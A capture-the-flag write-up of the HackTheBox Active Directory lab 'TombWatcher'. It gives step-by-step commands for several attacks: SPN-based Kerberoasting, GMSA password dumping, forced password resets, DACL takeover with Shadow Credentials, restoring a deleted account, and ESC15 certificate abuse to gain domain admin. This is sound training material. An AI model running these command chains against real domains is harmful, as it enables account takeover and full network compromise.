TombWatcher

TombWatcher was a nice medium-difficulty Windows Active Directory box that began with credentials for user Henry, who possessed write permissions on Alfred's servicePrincipalName attribute. I exploited this by adding an arbitrary SPN to Alfred's account, enabling a Kerberoasting attack where I requested a TGS ticket and cracked it with hashcat to reveal Alfred's password as "basketball".
BloodHound enumeration revealed a privilege escalation chain: Alfred could add himself to the Infrastructure group, which had permissions to read the GMSA password for the ansible_dev$ computer account. I added Alfred to Infrastructure using bloodyAD, then dumped the ansible_dev$ GMSA hash with gMSADumper.py. Using this computer account's credentials, I performed a forced password reset on the Sam user, who possessed WriteOwner privileges over John. I exploited this relationship through a three-step attack: setting Sam as John's owner, granting Sam FullControl via dacledit, then executing a Shadow Credentials attack with certipy-ad to obtain John's NT hash and gain WinRM access.
Post-compromise enumeration as John revealed a tombstoned (deleted) Active Directory object named cert_admin within the ADCS OU. I recovered this deleted account using Restore-ADObject and changed its password via PowerShell, gaining access to an account with elevated ADCS permissions. Certificate enumeration with certipy-ad as cert_admin revealed a WebServer certificate template vulnerable to ESC15 (CVE-2024-49019), allowing arbitrary Application Policy injection in v1 templates. I exploited ESC15 by requesting a certificate for the Administrator account with the "Client Authentication" OID injected into the Application Policies extension, then used certipy-ad's LDAP shell functionality to change the Administrator password and authenticate via WinRM, achieving full domain compromise.
User flag

Initial nmap scan reveals 13 open ports, some of them characteristic of an Active Directory DC.
Adding an SPN to Alfred
I began by looking at what permissions my user has in the domain. Without using bloodhound yet, I ran bloodyAD to see objects that are writable by Henry.
bloodyAD -u henry -p 'H3nry_987TGV!' -d TombWatcher.htb --dc-ip 10.10.11.72 get writable --detail

Henry can write into the servicePrincipalName attribute of Alfred. This points towards a path that could allow me to get Alfred's password.
Kerberoasting the Alfred user
I can add an SPN value to Alfred's attribute using bloodyAD.
bloodyAD -u henry -p 'H3nry_987TGV!' -d TombWatcher.htb --dc-ip 10.10.11.72 set object -v whatever/name Alfred servicePrincipalName
The value itself does not matter here and can be set to anything. It just needs to be set in order to be considered valid for Kerberos requests.

Now I can use impacket's GetUserSPNs to seek all users with an SPN set, and request a TGS(ticket granting service) for each user found.
impacket-GetUserSPNs -request -dc-ip 10.10.11.72 TombWatcher.htb/Henry:'H3nry_987TGV!'

After saving the ticket to a file, I'll try cracking it with hashcat.
hashcat alfredhash /usr/share/wordlists/rockyou.txt

Alfred | basketball
Bloodhound enumeration

Alfred can add himself to the Infrastructure group.

Members of that group can read the GMSA password of the ansible_devs computer account.

That account can force a password change for the Sam user.

And that user has WriteOwner over John.
Adding to that, John can remote into the machine, and he has GenericAll over the ADCS OU. This might become important later, so I'll keep it in mind.
Now I have a clear path towards remote perms over the DC.
Taking ownership of the John user
Reading the GMSA password of ansible_dev$
To see the GMSA passwords on the domain, I will use gMSADumper.py. When the specified user does not have permission to read GMSA passwords, the tool will list what groups have this privilege:

I will add Alfred to this group using bloodyAD.
bloodyAD -d tombwatcher.htb --dc-ip 10.10.11.72 -u alfred -p basketball add groupMember infrastructure alfred
And then rerun the previous command.

ansible_dev$ | bf8b11e301f7ba3fdc616e5d4fa01c30
Resetting Sam's password
We can reset Sam's password using various tools, but I'll keep using bloodyAD. However, because bloodyAD does not allow me to use hashes to authenticate, I will first request a Kerberos ticket with impacket-getTGT.
impacket-getTGT -dc-ip 10.10.11.72 -no-pass -hashes ':bf8b11e301f7ba3fdc616e5d4fa01c30' tombwatcher.htb/'ansible_dev$
When using Kerberos for authentication, it is good to use a FQDN(Fully Qualified Domain Name = Host name + Domain name) when specifying the domain controller in order to avoid PRINCIPAL_UNKNOWN errors.
bloodyAD -d tombwatcher.htb --dc-ip 10.10.11.72 --host dc01.tombwatcher.htb -u 'ansible_dev' -k set password sam 'Password123!'

Owning John
I will attack John by using the shadow credentials attack. Because I know that ADCS exists on the box, and I can grant Sam FullControl rights over John, this attack will be successful.
It'll consist of 3 steps:
-
- Set Sam as the owner of John with bloodyAD
-
- Give Sam FullControl rights over John with impacket-dacledit
-
- Use certipy-ad to carry out the shadow credentials attack against John, and get his NT hash
1 - bloodyAD -d tombwatcher.htb --dc-ip 10.10.11.72 -u sam -p 'Password123!' set owner john sam | This sets Sam as the owner of John
2 - impacket-dacledit -dc-ip 10.10.11.72 -principal sam -target john -action write -rights FullControl tombwatcher.htb/sam:'Password123!' | This edits the DACL, and gives Sam FullControl over John
3 - certipy-ad shadow auto -account john -dc-ip 10.10.11.72 -u sam -p 'Password123!' | And this command does the rest for me, attaches shadow credentials to John, and returns an NT hash

John | 2b576acbe6bcfda7294d6bd18041b8fe

Root flag
User John does not have any special permissions.

Retrieving a tombstoned account
There are quite a few things one should take a look at with initial access to a machine. The box name made me think of "Tombstoned" objects in AD. These are objects that were deleted, but still remain within the domain. They are marked with a isDeleted=true flag, and their attributes are stripped down, creating a tombstoned object.
These tombstoned objects are retained for a specified period, known as the "tombstone lifetime," which defaults to 180 days.
To check for tombstoned objects, I'll use the command below.
Get-ADObject -Filter 'isDeleted -eq $True' -IncludeDeletedObjects -Properties *

There is a very interesting result in here. Cert_admin could be a deleted user account, and since it's in the ADCS OU, John should have rights over it.
I'd like to recover it, and I can do so from my evil-winrm shell.
Restore-ADObject -Identity 'CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb'

Cert_admin has been recovered successfully. I'll rerun bloodhound-python to see its perms more clearly.

Just as expected, Hohn has GenericAll over this account. I'll change its password via powershell from my evil-winrm shell.
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force)
After that, I'll search for vulnerable certificate templates. The presence of this account makes me think of an ESC attack as a potential way to become administrator.
ESC15
Running certipy with user John gives nothing useful besides the CA name.
Certificate Authorities
0
CA Name : tombwatcher-CA-1
DNS Name : DC01.tombwatcher.htb
Certificate Subject : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
Certificate Serial Number : 3428A7FC52C310B2460F8440AA8327AC
Certificate Validity Start : 2024-11-16 00:47:48+00:00
Certificate Validity End : 2123-11-16 00:57:48+00:00
Web Enrollment
HTTP
Enabled : False
HTTPS
Enabled : False
User Specified SAN : Disabled
Request Disposition : Issue
Enforce Encryption for Requests : Enabled
Active Policy : CertificateAuthority_MicrosoftDefault.Policy
Permissions
Owner : TOMBWATCHER.HTB\Administrators
Access Rights
ManageCa : TOMBWATCHER.HTB\Administrators
TOMBWATCHER.HTB\Domain Admins
TOMBWATCHER.HTB\Enterprise Admins
ManageCertificates : TOMBWATCHER.HTB\Administrators
TOMBWATCHER.HTB\Domain Admins
TOMBWATCHER.HTB\Enterprise Admins
Enroll : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates : [!] Could not find any certificate templates
But using the cert_admin account gives a clear way towards privilege escalation.

This WebServer template is vulnerable to ESC 15. I can inject an OID into the Application Policies extension of the CSR. Certipy wiki explains this very well.
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu
I'll request a certificate for the administrator, executing the same steps as listed in the wiki.
certipy-ad req -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' -dc-ip '10.129.244.11' -target 'dc01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'administrator@tombwatcher.htb' -application-policies 'Client Authentication'

Next, I'll authenticate with certipy using the generated certificate.

Or I would... But it doesn't seem to work like I expected.
I'll request an ldap shell then, just like it was shown in the wiki.
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.129.244.11' -ldap-shell

Since I'm already an administrator in this shell, I can simply change the admin password to whatever I want. I can also give a user rights over the administrator account, creating a second way of changing their password.
With the password changed, I can use evil-winrm to remote into the DC as the administrator.

Rooted!